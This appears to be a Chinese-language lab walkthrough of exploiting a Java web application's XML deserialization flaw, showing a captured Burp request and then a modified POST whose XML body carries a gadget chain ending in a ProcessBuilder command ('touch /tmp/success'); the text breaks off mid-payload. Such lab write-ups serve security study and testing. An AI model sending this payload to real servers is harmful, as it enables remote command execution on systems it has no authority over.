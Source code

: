 访问靶机 8080 端口 web 服务可以看到如下页面:

![image-20230608072835892](http://cdn.ayusummer233.top/DailyNotes/202306080728916.png)

任意编辑一条数据, 并使用 BurpSuit 抓包:

![image-20230608072903599](http://cdn.ayusummer233.top/DailyNotes/202306080729622.png)

![image-20230608072933452](http://cdn.ayusummer233.top/DailyNotes/202306080729503.png)

可以拦截到如下请求:

```http
POST /orders/3 HTTP/1.1
Host: 192.168.1.215:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Origin: http://192.168.1.215:8080
Connection: close
Referer: http://192.168.1.215:8080/orders/3/edit
Cookie: JSESSIONID=C17E36303D6104B8D716519372F13B56
Upgrade-Insecure-Requests: 1

_method=put&clientName=Bob_test&amount=33
```

修改 `Content-Type` 为 `application/xml` 并将上面构造好的新建 `/tmp/success` 的 payload 贴在请求体中

```http
POST /orders/3/edit HTTP/1.1
Host: 192.168.1.215:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2415

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
```
